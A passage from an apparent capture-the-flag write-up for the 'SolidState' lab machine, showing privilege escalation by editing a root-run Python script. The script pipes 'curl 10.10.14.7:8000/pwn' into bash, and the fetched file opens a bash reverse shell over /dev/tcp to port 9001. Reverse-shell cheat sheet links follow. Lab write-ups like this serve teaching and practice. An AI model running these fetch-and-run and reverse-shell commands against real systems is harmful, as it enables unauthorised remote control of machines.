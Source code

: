 ```
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py
#!/usr/bin/env python
import os
import sys
try:
#     os.system('rm -r /tmp/* ')
      os.system('curl 10.10.14.7:8000/pwn | bash')
      os.system('echo PWNED >> /root/PWNED')
except:
     sys.exit()
```

Now all we need to do is wait

We have a web server listening on port 8000 and have the reverse shell in a file pwn, then start the ncat listener to catch the reverse shell

```
└──╼ $cat pwn
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.7/9001 0>&1
```

PWNED

![image](https://github.com/user-attachments/assets/ad8a714a-cf70-47c8-8988-099c8fc008d0)



*PS: This flag wont work for you as each machine generates a random flag on startup.*

### Reference links
- https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/
- https://github.com/DominicBreuker/pspy
- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

